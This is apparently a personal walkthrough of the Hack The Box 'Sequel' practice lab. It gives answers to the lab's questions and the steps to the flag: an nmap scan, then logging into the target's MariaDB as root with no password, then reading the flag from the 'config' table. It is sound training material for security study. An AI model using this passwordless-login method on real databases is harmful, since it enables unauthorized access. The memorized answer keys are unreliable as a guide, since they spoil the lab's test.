 ## Quick Links
[HTB - Starting Point](https://app.hackthebox.com/starting-point)  
[Sequel Walkthrough](blob:https://app.hackthebox.com/200d9f06-6f6b-4147-bf80-29728f3300f8) 

## Tasks
1. During our scan, which port do we find serving MySQL?
	1. *Answer*: 3306
2. What community-developed MySQL version is the target running?
	1. *Answer*: MariaDB
3. When using the MySQL command line client, what switch do we need to use in order to specify a login username?
	1. *Answer*: -u
4. Which username allows us to log into this MariaDB instance without providing a password?
	1. *Answer*: root
5. In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?
	1. *Answer*: *
6. In SQL, what symbol do we need to end each query with?
	1. *Answer*: ;
7. There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?
	1. *Answer*: htb
8. Submit root flag
	1. Ping the target to verify connectivity
	2. Run an nmap scan
		1. `sudo nmap -sC -sV $TARGET` 
	3. Disconnect from VPN and install *MySQL Tools* 
		1. `sudo apt update && sudo apt install mysql*` 
		2. `mysql --help`
	4. Authenticate into the remote SQL server
		1. `mysql -h $TARGET -u root` 
		2. Test connection with: `show databases;`
	5. Select the *htb* database
		1. `use htb`
	6. Show the tables, then show the contents of each table:
		1. `show tables;` - outputs *config* and *users* tables
		2. `select * from config;` - shows the flag
	7. Copy and paste the flag to HTB.
	8. Success: Machine Pwned!